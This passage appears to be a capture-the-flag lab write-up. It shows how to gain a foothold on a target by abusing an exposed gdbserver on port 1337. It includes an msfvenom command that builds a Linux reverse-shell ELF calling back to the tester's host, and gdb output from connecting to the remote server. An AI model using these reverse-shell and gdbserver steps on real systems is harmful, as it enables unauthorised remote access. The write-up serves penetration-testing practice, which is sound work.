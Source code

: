 ```terminal
PID[971]: /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
PID[973]: /bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
PID[980]: sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
PID[983]: /sbin/agetty -o -p -- \u --noclear tty1 linux
PID[985]: /lib/systemd/systemd --user
PID[986]: (sd-pam)
PID[990]: /usr/sbin/apache2 -k start

```

We found the following command.

```bash
/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
```

It's running a gdbserver on port 1337.

## **Foothold**

This hacktricks [page](https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver) explains how to exploit remote gdbserver.

First we create an `elf` reverser shell.

```terminal
[★]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.18 LPORT=9001 PrependFork=true -f elf -o shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
Final size of elf file: 226 bytes
Saved as: shell.elf
```

Now we open the file on our machine.

```terminal
[★]$ gdb -q shell    
Reading symbols from rev.elf...
(No debugging symbols found in rev.elf)
(gdb)
```

Then we connect to the remote server on port 1337.

```terminal
(gdb) target extended-remote 10.129.96.68:1337
Remote debugging using 10.129.96.68:1337
Reading /lib64/ld-linux-x86-64.so.2 from remote target...
warning: File transfers from remote targets can be slow. Use "set sysroot" to access files locally instead.
Reading /lib64/ld-linux-x86-64.so.2 from remote target...
Reading symbols from target:/lib64/ld-linux-x86-64.so.2...
Reading /usr/lib/debug/.build-id/53/74b5558386b815e69cc1838a6052cc9b4746f3.debug from remote target...
Reading /lib64/ld-2.31.so from remote target...
Reading /lib64/.debug/ld-2.31.so from remote target...
Reading /usr/lib/debug//lib64/ld-2.31.so from remote target...
Reading /usr/lib/debug/lib64//ld-2.31.so from remote target...
Reading target:/usr/lib/debug/lib64//ld-2.31.so from remote target...
(No debugging symbols found in target:/lib64/ld-linux-x86-64.so.2)
Reading /usr/lib/debug/.build-id/42/86d016f71e32db3a4f7221c847c3d1e13d6bd4.debug from remote target...
0x00007ffff7fd0100 in ?? () from target:/lib64/ld-linux-x86-64.so.2
```